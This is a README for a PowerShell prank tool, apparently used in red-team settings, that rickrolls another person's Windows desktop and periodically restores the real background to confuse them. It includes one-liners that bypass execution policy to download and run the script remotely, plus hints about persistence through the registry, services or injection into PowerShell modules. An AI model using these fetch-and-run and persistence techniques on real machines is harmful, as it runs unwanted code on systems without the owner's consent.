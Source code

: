 # Invoke-Rick
Rickroll someone's Windows desktop, restoring their original background occasionally to drive them mad.

Optionally restore the original background on mouse and/or keyboard activity.

For more fun, set this on auto-run through use of the registry, services, injecting into PowerShell modules, or more.

**Disclaimer:** I'm not responsible if this annoys blue or any other end user. I do not have ownership over any referenced imgur images or URLs, use at your own risk!

## One-liner
PowerShell
```PowerShell
Set-ExecutionPolicy Bypass -Scope Process -Force; iex ((New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/MJVL/Invoke-Rick/blob/main/Invoke-Rick.ps1"))
```
Cmd
```
powershell.exe -ExecutionPolicy Bypass -NonInteractive -c "iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/MJVL/Invoke-Rick/blob/main/Invoke-Rick.ps1'))"
```


## Usage
```
SYNTAX
    .\Invoke-Rick.ps1 [[-URL] <String>] [[-ImagePath] <String>]
    [[-FrameDelay] <TimeSpan>] [[-FakeoutDelay] <TimeSpan>] [[-FakeoutDuration] <TimeSpan>] [[-EndTime] <DateTime>]
    [-WatchMouse] [-WatchKeyboard] [[-ActivityDelay] <TimeSpan>] [<CommonParameters>]

PARAMETERS
    -URL <String>
        Location of zip containing rickroll images. Default = imgur zip.

    -ImagePath <String>
        Location to save image frames. Default = C:\Windows\Temp\Rick.

    -FrameDelay <TimeSpan>
        Delay between each frame. Default = 1 second.

    -FakeoutDelay <TimeSpan>
        How long to rickroll until returning to the normal background. Default = 1 minute.

    -FakeoutDuration <TimeSpan>
        How long to remain on the normal background during a fakeout. Default = 5 minutes.

    -EndTime <DateTime>
        Absolute time to kill Invoke-Rick at. Default = run forever.

    -WatchMouse [<SwitchParameter>]
        Restore normal background if mouse movement is detected. Polling rate is linked with -FrameDelay.

    -WatchKeyboard [<SwitchParameter>]
        Restore normal background if keypresses is detected. Polling rate is linked with -FrameDelay.

    -ActivityDelay <TimeSpan>
        How long to remain on the normal background after detecting movement from the mouse or keyboard. Default = 1
        minute

    -Verbose
        Show debug information.

    -------------------------- EXAMPLE 1 --------------------------

    PS>iex powershell.exe -ExecutionPolicy Bypass -NonInteractive -c "iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/MJVL/Invoke-Rick/blob/main/Invoke-Rick.ps1'))"
        Download and run this script remotely.

    -------------------------- EXAMPLE 2 --------------------------

    PS>.\Invoke-Rick.ps1 -WatchMouse -WatchKeyboard -ActivityDelay (New-TimeSpan -Seconds 30)
        Rickroll, restoring the original background for 30 seconds if keyboard or mouse activity is detected.

    -------------------------- EXAMPLE 3 --------------------------

    PS>.\Invoke-Rick.ps1 -FakeoutDuration (New-TimeSpan -Minutes 2) -EndTime ((Get-Date).AddMinutes(5))
        Rickroll for 5 minutes, showing the user's original background every 2 minutes.

    -------------------------- EXAMPLE 4 --------------------------

    PS>.\Invoke-Rick.ps1 -Verbose
        Show debug information.

    -------------------------- EXAMPLE 5 --------------------------

    PS>Get-Help .\Invoke-Rick.ps1 -Detailed
        Get detailed help.
```
